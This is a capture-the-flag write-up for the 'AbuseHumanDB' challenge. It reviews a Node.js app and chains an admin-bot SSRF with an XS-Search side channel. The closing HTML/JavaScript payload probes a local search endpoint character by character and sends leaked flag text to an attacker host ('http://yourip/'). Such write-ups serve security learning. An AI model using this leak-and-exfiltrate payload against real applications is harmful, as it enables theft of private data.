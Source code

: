 ## AbuseHumanDB - Easy

After downloading the necessary files for the callenge and taking a look at the source code you will see
```
  - routes/
  - static/
  - views/
  - bot.js
  - database.js
  - index.js
  - package.json
```
By reviewing the source code to check it out the flag ( Our goal ) you will find it in

**database.js**
```js
INSERT INTO userEntries (title, url, approved) VALUES ("Back The Hox", "https://ctf.backthehox.ew/ctf/82", 1);
INSERT INTO userEntries (title, url, approved) VALUES ("Drunk Alien Song", "https://www.youtune.com/watch?v=jPPT7TcFmAk", 1);
INSERT INTO userEntries (title, url, approved) VALUES ("Mars Attacks!", "https://www.imbd.com/title/tt0116996/", 1);
INSERT INTO userEntries (title, url, approved) VALUES ("Professor", "https://www.thebun.co.uk/tech/4119382/professor-steven-rolling-fears-aliens-could-plunder-conquer-and-colonise-earth-if-we-contact-them/", 1);
INSERT INTO userEntries (title, url, approved) VALUES ("HTB{f4k3_fl4g_f0r_t3st1ng}","https://app.backthehox.ew/users/107", 0);
```
so our goal is to get a non-approved Post from userEntries and how can that happen? if a file calls any of those functions `listEntires` or `getEntry` with `approved=0`
```js
async listEntries(approved=1) {
        return new Promise(async (resolve, reject) => {
            try {
                let stmt = await this.db.prepare("SELECT * FROM userEntries WHERE approved = ?");
                resolve(await stmt.all(approved));
            } catch(e) {
                console.log(e);
                reject(e);
            }
        });
    }

async getEntry(query, approved=1) {
        return new Promise(async (resolve, reject) => {
            try {
                let stmt = await this.db.prepare("SELECT * FROM userEntries WHERE title LIKE ? AND approved = ?");
                resolve(await stmt.all(query, approved));
            } catch(e) {
                console.log(e);
                reject(e);
            }
        });
    }
```

Don't waste your time reading all of the source code we know our goal and injection point so let's look for the functions that execute `listEntries` or `getEntry`

**routes/index.js**
```js
router.get('/api/entries/search', (req, res) => {
	if(req.query.q) {
		const query = `${req.query.q}%`;
		return db.getEntry(query, isLocalhost(req))
			.then(entries => {
				if(entries.length == 0) return res.status(404).send(response('Your search did not yield any results!'));
				res.json(entries);
			})
			.catch(() => res.send(response('Something went wrong! Please try again!')));
	}
	return res.status(403).json(response('Missing required parameters!'));
});
```
it contains `db.getEntry(query, isLocalhost(req))` and returns `200` status code if the query exists but if not it returns `404` but what is `isLocalhost`?

```js
const isLocalhost = req => ((req.ip == '127.0.0.1' && req.headers.host == '127.0.0.1:1337') ? 0 : 1);
```
so if our `req.ip` is `127.0.0.1` and `req.headers.host` is `127.0.0.1:1337` it returns `0` and thats our goal but how?
if you took a look at the website then you already know your injection point

![image](https://user-images.githubusercontent.com/32434709/140931055-37583048-5d1a-4012-b903-49fcbdd03195.png)

```js
router.post('/api/entries', (req, res) => {
	const { url } = req.body;
	if (url) {
		uregex = /https?:\/\/(www\.)?[-a-zA-Z0-9@:%._\+~#=]{1,256}\.[a-zA-Z0-9()]{1,6}\b([-a-zA-Z0-9()@:%_\+.~#?&\/\/=]*)/
		if (url.match(uregex)) {
			return bot.visitPage(url)
				.then(() => res.send(response('Your submission is now pending review!')))
				.catch(() => res.send(response('Something went wrong! Please try again!')))
		}
		return res.status(403).json(response('Please submit a valid URL!'));
	}
	return res.status(403).json(response('Missing required parameters!'));
});
```
So we can make the bot visit the url `http://127.0.0.1:1337/api/entries/search?q=query` and it will bypass the isLocalhost method.
But how can we get the flag then? let's check XSS then in the bot to see if we can execute javascript
Ok wait a second we have `SSRF, XSS` and our URL returns different Status Code if a query is valid so doesn't this mean XSSearch?

![image](https://user-images.githubusercontent.com/32434709/140932469-d3541d08-eef3-4013-9a43-8bba51191249.png)

so let's try it out create a html file in your vps and run your server

```html
<script>
var chars = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!{} ';
var charLen = chars.length;
var leak = "HTB";
var charNum = 0;
function search(leak){
        for (var i = 0; i < chars.length; i++) {
                var curChar = chars[i];
                probeError('http://127.0.0.1:1337/api/entries/search?q='+leak+curChar);
        }
}

function probeError(url) {
  let script = document.createElement('script');
  script.src = url;
  script.onload = () => {
          leak = url.split("?")[1].replace("q=", "");
          fetch("http://yourip/"+leak); // if it returns 200 OK then the query returned our Flag send it to our server
        }
  script.onerror = () => {
          console.log("error"); // If it returns 404 Code then the query is invalid and we don't care about it
  };
  document.head.appendChild(script);
}
search(leak);

</script>
```
I'm lazy to be honest so i didn't write a loop to bruteforce the flag itself you need to get each new character and append it to the `leak` string yourself

![image](https://user-images.githubusercontent.com/32434709/140931735-aecf8c7a-d9cc-4116-ab3d-d2b5e73d9005.png)

and thats it. Simple and Easy 
